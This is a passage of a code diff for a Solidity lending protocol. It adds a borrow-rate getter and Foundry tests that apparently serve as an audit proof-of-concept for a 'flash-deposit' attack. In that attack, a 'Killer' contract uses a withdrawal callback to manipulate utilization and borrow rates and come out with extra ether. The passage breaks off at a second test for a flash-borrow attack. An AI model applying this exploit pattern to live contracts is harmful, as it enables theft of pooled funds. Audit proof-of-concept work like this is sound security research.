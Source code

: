 ```diff
             / pseudoPool
         );
     }
 
+    function _getBorrowRate(
+        address _poolToken
+    )
+        public
+        view
+        returns (uint256)
+    {
+        return borrowPoolData[_poolToken].borrowRate;
+    }
+
     /**
      * @dev Internal helper function setting new pool
      * utilization by calling {_getValueUtilization}.
      */
     function _updateUtilization(
         address _poolToken
diff --git a/contracts/WisenLendingShutdown.t.sol b/contracts/WisenLendingShutdown.t.sol
index ceffc11..86c4398 100644
--- a/contracts/WisenLendingShutdown.t.sol
+++ b/contracts/WisenLendingShutdown.t.sol
@@ -814,7 +814,150 @@ contract WiseLendingShutdownTest is Test{
 
         LENDING_INSTANCE.withdrawExactAmountETH(
             nftId,
             withdrawAmount
         );
     }
+    
+    function test_t0x1c_flashDeposit() 
+        public
+    {
+        //*************************** SETUP ***************************************
+        uint256 nftId0 = POSITION_NFTS_INSTANCE.mintPosition(); 
+        LENDING_INSTANCE.depositExactAmountETH{value: 200 ether}(nftId0); 
+        LENDING_INSTANCE.borrowExactAmountETH(nftId0, 100 ether);
+        Killer contractKiller = new Killer{value: 100 ether}(address(LENDING_INSTANCE), WETH_ADDRESS);
+        console.log("\n\n -------------- ATTACK LOGS (flash-deposit) --------------\n");
+        //*************************************************************************
+
+        vm.startPrank(address(contractKiller));
+        uint256 nftId = POSITION_NFTS_INSTANCE.mintPosition(); // nftId = 2
+        LENDING_INSTANCE.depositExactAmountETH{value: 100 ether}(nftId); 
+
+        emit log_named_decimal_uint("valueUtilization before attack =", LENDING_INSTANCE._getValueUtilization(WETH_ADDRESS), 9);
+        emit log_named_decimal_uint("borrowRate before attack =", LENDING_INSTANCE._getBorrowRate(WETH_ADDRESS), 9);
+
+        LENDING_INSTANCE.withdrawExactAmountETH(nftId, 1 ether); // invokes contractKiller's receive()
+
+        assertEq(address(contractKiller).balance, 75 ether, "borrowed amount not credited");
+    }
+    
+    function test_t0x1c_flashBorrow() 
+        public
+    {
+        //*************************** SETUP ***************************************
```